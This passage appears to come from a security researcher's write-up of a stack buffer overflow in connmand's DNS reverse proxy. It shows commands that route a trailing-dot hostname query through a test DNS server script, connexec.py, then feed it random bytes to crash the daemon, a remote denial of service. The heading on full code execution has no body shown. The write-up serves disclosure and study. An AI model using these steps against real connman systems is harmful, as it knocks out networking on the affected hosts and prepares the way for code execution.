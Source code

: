     network-ns: host somwhere. 127.0.0.1
    Using domain server:
    Name: 127.0.0.1
    Address: 127.0.0.1#53
    Aliases:
    
    somehwere has address 255.255.255.255
    somehwere has address 255.255.255.255
    somehwere has address 255.255.255.255

This command explicitly contacts the DNS server running on localhost (the DNS
reverse proxy implemented in _connmand_) and asks it to resolve the hostname
"somewhere.". The dot suffix is important, because it triggers the DNS reverse
proxy's domain name qualification logic that contains the security issue. As
we can see from the output, the setup has worked and the reply with IPv4
address 255.255.255.255 from the `connexec.py` script has reached our DNS
client.

For sending an actual exploit payload we can pass arbitrary data via the
`--exploit` switch of `connexec.py`. Instead of a harmless reply with an IP
address the script will then return the arbitrary data that will overwrite the
stack buffer. The following _connexec.py_ setup should cause _connmand_
to simply crash once the DNS query from above is triggered:

    # shell A (DNS server)
    (network-ns) $ dd if=/dev/urandom of=./garbage.raw bs=2048 count=1
    (network-ns) $ ./connexec.py -l 192.168.1.1 -x garbage.raw

    # shell B (DNS client)
    (network-ns) $ host somehwere. 127.0.0.1

    # shell C (connmand)
    [...]
    connmand[18493]: Failed to find URL:http://ipv4.connman.net/online/status.html
    connmand[18493]: Aborting (signal 11) [/home/mgerstner/work/install/sbin/connmand]
    Segmentation fault (core dumped)

Thus we now achieved remote denial of service in _connmand_ but not yet remote
code execution.

---
**NOTE:**

Each time you restart `connmand` you will need to reconfigure it using
`connmanctl` as shown at the start of this section.

---

Achieving Full Code Execution
=============================


[1]: https://bugzilla.suse.com/show_bug.cgi?id=1186869
[2]: https://git.kernel.org/pub/scm/network/connman/connman.git
[3]: https://datatracker.ietf.org/doc/html/rfc1035